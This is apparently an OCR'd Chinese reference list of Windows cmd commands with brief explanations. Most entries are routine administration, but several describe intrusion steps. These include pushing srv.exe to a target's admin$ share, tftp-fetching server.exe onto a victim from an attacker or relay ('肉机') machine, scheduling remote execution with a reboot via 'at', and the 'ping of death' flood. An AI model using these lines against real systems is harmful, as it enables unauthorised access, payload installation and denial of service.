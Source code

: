 net share ipc$ 开启ipc$共享
net share ipc$ /del 删除ipc$共享
net share c$ /del 删除C：共享
net user guest 12345 用guest用户登陆后用将密码改为12345
net password 密码 更改系统登陆密码
netstat -a 查看开启了哪些端口，常用netstat -an
netstat -n 查看端口的网络连接情况，常用netstat -an
netstat -v 查看正在进行的工作
netstat -p 协议名 例：netstat -p tcq/ip 查看某协议使用情况
netstat -s 查看正在使用的所有协议使用情况
nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名
tracert -参数 ip(或计算机名） 跟踪路由（数据包），参数：“-w数字”用于设置超时间隔。	# 用于监视（黑客常用指令）
ping ip（或域名） 向对方主机发送默认大小为32字节的数据，参数：“-l[空格]数据包大小”；“-n发送数据次数”；“-t”指一直ping。
ping -t -l 65500 ip 死亡之ping（发送大于64K的文件并一直ping就成了死亡之ping)
ipconfig (winipcfg) 用于windows NT及XP(windows 95 98）查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息
tlist -t 以树行列表显示进程（为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内）
kill -F 进程名 加-F参数后强制结束某进程（为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内）
del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件
del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件，用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖
fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令
at id号 开启已注册的某个计划任务
at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止
at id号 /delete 停止某个已注册的计划任务
at 查看所有的计划任务
at ip time 程序名（或一个命令） /r 在某时间运行对方某程序并重新启动计算机
finger username @host 查看最近有哪些用户登陆
telnet ip 端口 远程登陆服务器，默认端口为23
open ip 连接到IP（属telnet登陆后的命令）
telnet 在本机上直接键入telnet 将进入本机的telnet
copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下
copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件
copy ipadmin$svv.exe c: 或：copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件
用参数/e才可连目录下的子目录一起复制到目标地址下。
tftp -i 自己IP（用肉机作跳板时这用肉机IP) get server.exec:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机
ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送（文本文件时）
route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface			# 用于查看当前路由器的用户信息
arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令
mem 查看cpu使用情况
attrib 文件名（目录名） 查看某文件（目录）的属性
attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉（添加）某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性
dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间
date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间
set 指定环境变量名称=要指派给变量的字符 设置环境变量
set 显示当前所有的环境变量
set p（或其它字符） 显示出当前以字符p（或其它字符）开头的所有环境变量
pause 暂停批处理程序，并显示出：请按任意键继续....
if 在批处理程序中执行条件处理（更多说明见if命令及变量）
goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）
call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）
for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）
echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置
echo 信息 在屏幕上显示出信息
echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中
findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello
find 文件名 查找某文件